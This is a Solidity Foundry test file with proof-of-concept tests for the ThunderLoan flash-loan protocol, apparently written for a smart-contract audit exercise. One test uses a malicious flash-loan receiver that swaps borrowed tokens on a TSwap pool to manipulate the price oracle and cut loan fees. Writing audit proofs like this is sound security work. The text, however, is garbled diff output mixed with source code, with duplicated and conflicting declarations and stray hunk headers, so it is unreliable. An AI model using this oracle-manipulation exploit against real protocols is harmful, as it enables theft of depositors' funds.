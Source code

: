 ﻿pragma solidity 0.8.20;

import { Test, console } from "forge-std/Test.sol";
import { ThunderLoanTest, ThunderLoan } from "../unit/ThunderLoanTest.t.sol";
import { ERC20Mock } from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import { ERC20Mock } from "../mocks/ERC20Mock.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { ERC1967Proxy } from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
import { TSwapPool } from "./TSwapPool.sol";
import { BuffMockTSwap } from "../mocks/BuffMockTSwap.sol";
import { IFlashLoanReceiver, IThunderLoan } from "../../src/interfaces/IFlashLoanReceiver.sol";
import { PoolFactory } from "./PoolFactory.sol";
import { BuffMockPoolFactory } from "../mocks/BuffMockPoolFactory.sol";

contract ProofOfCodes is ThunderLoanTest {
    function testUpgradeBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
____________
 }

    function testRedeemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), fee);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;
;

    function testCanManipuleOracleToIgnoreFees() public {
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        weth = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");

        PoolFactory pf = new PoolFactory();
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        pf.createPool(address(tokenA));

        address tswapPool = pf.getPool(address(tokenA));

        // Overwrite the WETH address
        deployCodeTo("ERC20Mock.sol:ERC20Mock", address(TSwapPool(tswapPool).WETH_TOKEN()));
        weth = ERC20Mock(address(TSwapPool(tswapPool).WETH_TOKEN()));

        proxy = new ERC1967Proxy(address(thunderLoan), "");
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf));

        // Fund tswap
        // 1. Fund Tswap
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);

        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);
        TSwapPool(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
        // We are depositing 100 WETH & 100 USDC into Tswap
        // so the price will be 1 WETH == 1 USDC
        BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        vm.prank(thunderLoan.owner());
        // 2. Fund ThunderLoan
        vm.startPrank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        vm.stopPrank();

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, DEPOSIT_AMOUNT);
        tokenA.approve(address(thunderLoan), DEPOSIT_AMOUNT);
        thunderLoan.deposit(tokenA, DEPOSIT_AMOUNT);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(thunderLoan), 100e18);
        thunderLoan.deposit(tokenA, 100e18);
        vm.stopPrank();

        // 3. Attack
        // TSwap has 100 WETH & 100 tokenA
        // ThunderLoan has 1,000 tokenA
        // If we borrow 50 tokenA -> swap it for WETH (tank the price) -> borrow another 50 tokenA (do something) ->
        // repay both
______---
// here is how much we'd pay normally
        uint256 calculatedFeeNormal = thunderLoan.getCalculatedFee(tokenA, 100e18);

        uint256 amountToBorrow = 50e18;
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(address(TWAP));
        MaliciousFlashLoanReceiver flr =
            new MaliciousFlashLoanReceiver(address(tswapPool), address(tokenA), address(weth));
        vm.startPrank(user);
        tokenA.mint(address(flr), AMOUNT);
        tokenA.mint(address(flr), 50e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
@@-118,11 +126.11 @@ contract MaliciousFlashLoanReciever is IFlashLoanReciever{
{
        if (!attacked) {
            feeOne = fee;
            attacked = true;
            uint256 expected = pool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(pool), 50e18);
            pool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, expected, block.timestamp);
            uint256 expected = pool.getInputAmountBasedOnOutput(50e18, 100e18, 100e18);
            IERC20(tokenA).approve(address(pool), expected);
            pool.swapExactInput(tokenA, weth, expected, uint64(block.timestamp));
            IERC20(token).approve(msg.sender, amount + fee);
            IThunderLoan(msg.sender).repay(token, amount + fee);
        } else {
            feeTwo = fee;
